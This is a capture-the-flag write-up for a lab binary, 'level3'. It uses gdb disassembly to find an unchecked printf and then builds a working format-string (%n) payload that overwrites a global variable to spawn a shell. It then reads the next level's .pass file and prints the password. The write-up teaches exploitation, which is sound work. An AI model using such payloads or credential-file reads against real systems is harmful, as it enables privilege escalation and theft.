 Execute the *level3* binary:

```bash
./level3
abcd
```

```
```

> Note the *level3* binary reads the user input from stdin like the *level1* and *level2*.

```gdb
disass main
```

> Use __set disassembly-flavor intel__ command to set the intel syntax.

```gdb
Dump of assembler code for function main:
   0x0804851a <+0>:	    push   ebp
   0x0804851b <+1>:	    mov    ebp,esp
   0x0804851d <+3>:	    and    esp,0xfffffff0
   0x08048520 <+6>:	    call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```

Check the *v* function called from the main:

```gdb
disass v
```

```gdb
Dump of assembler code for function v:
...
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>           ; get the user input
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>          ; print the user input
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40                        ; compare the "m" global variable to 64
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
...
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>          ; print "Wait what?!\n"
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:	call   0x80483c0 <system@plt>       ; execute "/bin/sh"

   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```

> Exploit directly the user input is no longer possible because the *gets* function was remplaced by *fgets* wich limit the length input to prevent overflow.

The goal is to reach the system call instruction that open the shell with the right of the binary.

For reach this instruction, the comparaison of the global variable *m* with the value __64__ need to be equal.

```gdb
x 0x804988c
```

```
0x804988c <m>:	0x00000000
```

> By default, the value of the global variable *m* is 0 (using the __0x804988c__ address).

So it's necessary to set the value of this global variable *m* to __64__.

Note between the user input reading (*fgets*) and the comparaison of the global variable *m*, the call of the *printf* function.

After some search, note the *printf* function can [read and write](https://axcheron.github.io/exploit-101-format-strings/) the stack and specific address using the [%n](https://www.geeksforgeeks.org/g-fact-31/) special format specifier.

```
In C printf(), %n is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf() before the occurrence of %n.
```

Because the string given to *printf* is the user input readed fromt *fgets* in a 512 bytes buffer stored on the stack frame, it's possible to access to the parameters localised on the stack before the *printf* call (and write in with the previous described *%n* special foramt specifier).

```bash
echo "AAAABBBBCCCC %p %p %p %p %p %p %p" | ./level3
```

```
AAAABBBBCCCC 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x42424242 0x43434343 0x20702520
```

> The fourth parameter of the *printf* is the first character of the user input buffer (because AAAA = 0x41414141, BBBB = 0x42424242 ...)

To write in the the global variable *m*:

- Put the address of the global variable *m* at the beginning of the user input (reversed because the stack is readed in the opposite way = \x8c\x98\x04\x08) for the *fgets* call.
- Add 60 padding characters/bytes so that the *%n* special format specifier of *printf* take the value 64 (the four bytes of the global variable *m* plus the 60 paddings bytes).
- Add the *%n* special format specifier with the *%4$...* permutation option for write its value (64) in the fourth parameter of printf which is the start of the user input buffer (starting by the address of the global variable *m* thanks to the step one).

```bash
(echo -e "\x8c\x98\x04\x08............................................................%4\$n" ; cat) | ./level3
cat /home/user/level4/.pass
```

> Use __cat__ to keep stdin open.

```
�............................................................
Wait what?!
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
